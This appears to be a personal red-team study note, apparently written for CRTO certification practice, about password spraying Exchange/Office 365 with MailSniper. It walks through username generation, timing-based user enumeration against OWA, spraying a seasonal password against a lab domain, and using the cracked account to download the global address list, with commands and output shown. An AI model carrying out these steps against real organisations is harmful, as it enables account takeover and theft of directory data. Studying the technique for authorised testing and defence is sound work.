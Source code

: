 

Password spraying is an effective technique for discovering weak passwords that users are notorious for using. 

Patterns such as MonthYear (August2019), SeasonYear (Summer2019) and DayDate (Tuesday6) are very common.

## 🖊️ Tools

Two excellent tools for password spraying against Office 365 and Exchange are [MailSniper](https://github.com/dafthack/MailSniper) and [SprayingToolkit](https://github.com/byt3bl33d3r/SprayingToolkit).

`PS C:\Users\Attacker> ipmo C:\Tools\MailSniper\MailSniper.ps1

## 📔 Attack Method

- Build a list of users or usernames
- Build a list of possible passwords
- Enumerate the NetBIOS name of the target domain with `Invoke-DomainHarvestOWA`, for example:

	`PS C:\Users\Attacker> Invoke-DomainHarvestOWA -ExchHostname mail.cyberbotic.io

- [namemash.py](https://gist.github.com/superkojiman/11076951) will take a person's full name and transform it into possible username permutations.
```
ubuntu@DESKTOP-3BSK7NO /m/c/U/A/Desktop> ~/namemash.py names.txt > possible.txt
ubuntu@DESKTOP-3BSK7NO /m/c/U/A/Desktop> head -n 5 possible.txt
bobfarmer
farmerbob
bob.farmer
farmer.bob
farmerb
```

- `Invoke-UsernameHarvestOWA` uses a timing attack to validate which (if any) of these usernames are valid.

```
PS C:\Users\Attacker> Invoke-UsernameHarvestOWA -ExchHostname mail.cyberbotic.io -Domain cyberbotic.io -UserList .\Desktop\possible.txt -OutFile .\Desktop\valid.txt
[*] Now spraying the OWA portal at https://10.10.15.100/owa/
Determining baseline response time...
Response Time (MS)       Domain\Username
763                      cyberbotic.io\OkAJfr
738                      cyberbotic.io\UGVuQv
750                      cyberbotic.io\ztHyFf
749                      cyberbotic.io\dsLWDY
762                      cyberbotic.io\YgFBIP

         Baseline Response: 752.4

Threshold: 460.44
Response Time (MS)       Domain\Username
[*] Potentially Valid! User:cyberbotic.io\bfarmer
[*] Potentially Valid! User:cyberbotic.io\iyates

```

- MailSniper can spray passwords against the valid account(s) identified using, Outlook Web Access (OWA), Exchange Web Services (EWS) and Exchange ActiveSync (EAS).
```
PS C:\Users\Attacker> Invoke-PasswordSprayOWA -ExchHostname mail.cyberbotic.io -UserList .\Desktop\valid.txt -Password Summer2022
[*] Now spraying the OWA portal at https://mail.cyberbotic.io/owa/
[*] SUCCESS! User:cyberbotic.io\iyates Password:Summer2022
[*] A total of 1 credentials were obtained.
```

Always be aware of account lockout, avoiding blocking and causing noise in the environment. 

- We can do further actions using MailSniper with valid credentials, such as downloading the global address list.
```
PS C:\Users\Attacker> Get-GlobalAddressList -ExchHostname mail.cyberbotic.io -UserName cyberbotic.io\iyates -Password Summer2022 -OutFile .\Desktop\gal.txt
```


##  📗 Action to perform 

1. 


### Properties
---
📆 created   {{06-02-2024}} 17:19
🏷️ tags: #redteam #crto   

---

